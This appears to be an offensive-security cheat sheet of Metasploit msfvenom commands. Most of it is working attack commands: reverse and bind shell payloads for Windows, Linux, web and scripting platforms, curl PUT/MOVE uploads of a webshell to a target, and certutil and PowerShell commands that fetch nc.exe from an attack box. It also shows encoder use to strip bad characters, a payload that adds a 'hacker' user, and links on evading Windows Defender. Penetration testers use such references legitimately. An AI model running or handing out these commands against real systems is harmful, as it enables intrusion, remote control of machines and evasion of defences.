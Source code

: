 

* * *
## payloads - general
* * *

- List: 
```bash
msfvenom -l payloads
```
- Options:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options
```

* * *
## creating & sending
* * *
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myIP LPORT=4040 -f aspx > exploit.aspx

curl -X PUT http://targetIP/exploit.txt --data-binary @exploit.aspx
curl -X MOVE -H 'Destination: https://targetIP/exploit.aspx' https://targetIP/exploit.txt

- msfconsole
	- use exploit/multi/handler
	- set lhost myIP
	- set lport 4040
	- run
	
- run multi/recon/local_exploit_suggester
```

* * *
## other
* * *
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=myIP LPORT=4040 -e x86/shikata_ga_nai –f exe –o exploit.exe
```

## uploading exploits using curl
```bash
curl -X PUT http://targetIP/exploit.txt --data-binary @exploit.aspx
curl -X MOVE -H 'Destination: https://targetIP/exploit.aspx' https://targetIP/exploit.txt
 ```

* * *
## using curl to exploit
* * *
```bash
- curl -X POST http://URL/example.php

- curl post request with data:

	- curl -d "data=example1&data2=example2" http://URL/example.cgi

- curl POST to a form:

	- curl -X POST -F "name=user" -F "password=test" http://URL/example.php

- curl POST with a file:

	- curl -X POST -F "image=@/path/example.gif" http://URL/uploadform.cgi

```
* * *
## python http/ftp server
* * *
```python
python -m SimpleHTTPServer 80 [Optional: port]
python -m SimpleHTTPServer 8000
python3 -m http.server 80
python3 -m http.server 8000

python -m pyftpdlib -p 21
python3 -m pyftpdlib -p 21

```

* * *
## Windows exploit builds
* * *
```bash
apt-get update
apt-get install mingw-w64
wget -O 40564.c https://www.exploit-db.com/download/40564
i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```

* * *
## Windows grabbing exploits
* * *
```
certutil -urlcache -split -f [URL] [Filename.Extension]
```
	-URLcache: Displays or deletes URL cache entries.
	-f: Forces fetching a specific URL and updating the cache.
	-split: Split embedded ASN.1 elements, and save to files on disk.

Using powershell
```
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\
## powershell version 3 - 
powershell $PSVersionTable.PSVersion
powershell Invoke-WebRequest -Uri http://[IP Attack box]/nc.exe -OutFile C:\nc.exe

```


```
echo $storageDir = $pwd > httpdownload.ps1

echo $webclient = New-Object System.Net.WebClient >> httpdownload.ps1

echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1
```
execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
```




* * *
## Windows Payloads
* * *
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	

msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

* * *
## Linux Payloads
* * *
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	

msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom: 

msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

* * *
## Web Payloads
* * *
```bash

## PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

## JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

## WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

```

* * *
## Scripting Payloads
* * *
```bash

## Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

## Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

## Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


## Creating an Msfvenom Payload with an encoder while removing bad charecters:

msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

```



* * *
## links
* * *
- https://github.com/hackerhouse-opensource/backdoors
- https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/


* * *
```note
In Linux, and other UNIX-like systems, you have to be root (have superuser privileges) in order to listen to TCP or UDP ports below 1024.
```
